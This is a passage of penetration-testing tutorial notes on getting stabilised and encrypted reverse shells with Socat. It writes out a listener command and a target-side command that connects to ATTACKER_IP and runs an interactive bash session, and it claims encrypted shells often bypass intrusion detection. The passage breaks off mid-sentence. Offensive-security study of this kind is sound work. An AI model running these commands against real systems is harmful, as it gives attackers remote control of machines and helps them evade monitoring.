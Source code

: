 ### Stablised shells

As mentioned earlier, one of the more porwerful uses for Socat is that it is able to obtain a *fully stable* Linux tty reverse shell. The listener syntax in this case is
```console
~$ socat TCP-L:<PORT> FILE:`tty`,raw,echo=0
```

In this case, Socat is establishing a connection between a listening port and a file -- specifically the current tty is being passed in as a file, and we set `echo` to be 0. 

> This is approximately equivalent to using `Ctrl + Z`, followed by `stty raw -echo; fg` with a Netcat shell.

This listener must then be activated with a specific Socat command on the target. Thus, the target must have Socat installed on it. The special command is 
```console
~$ socat TCP:<ATTACKER_IP>:<ATTACKER_PORT> EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```

This command establishes a connection between the listener on the attacking machine to an *interactive bash session* on the target. Additionally, the bash session is initialised with the arguments: 
* `pty` -- allocates a pseudoterminal on the target; part of the stablisation process,
* `stderr` -- makes sure that any error messages get shown in the shell,
* `sigint` -- passes and `Ctrl + C` commands through into the subprocess, allowing us to kill processes in the shell,
* `setsid` -- creates the process in a new session,
* `sane` -- stablises the terminal.

In practice, using Socat to instantly obtain a stable reverse shell should look like

![Socat stable shell](./img/socat_stable.png "Socat stable shell")

On the left is the attacking machine with the listener, while on the right is a compromised target. The target starts with a non-interactive Netcat shell, from which the special Socat command is executed. The attacker then receives a fully interactive bash shell on the socat listener. 

-----

If, at any point, a Socat shell is not behaving properly, we can increase the verbosity by adding `-d -d` into the command.

## Socat encrypted shells

Socat is also capable of creating *encrypted* shells -- both bind and reverse. Encrypted shells **cannot** be spied on unless one has the decryption key, and are often able to bypass intrusion detection systems (IDS) as a result. 

We first need to generate a certificate in order to use encrypted shells. It is easy to do this on the attacking machine
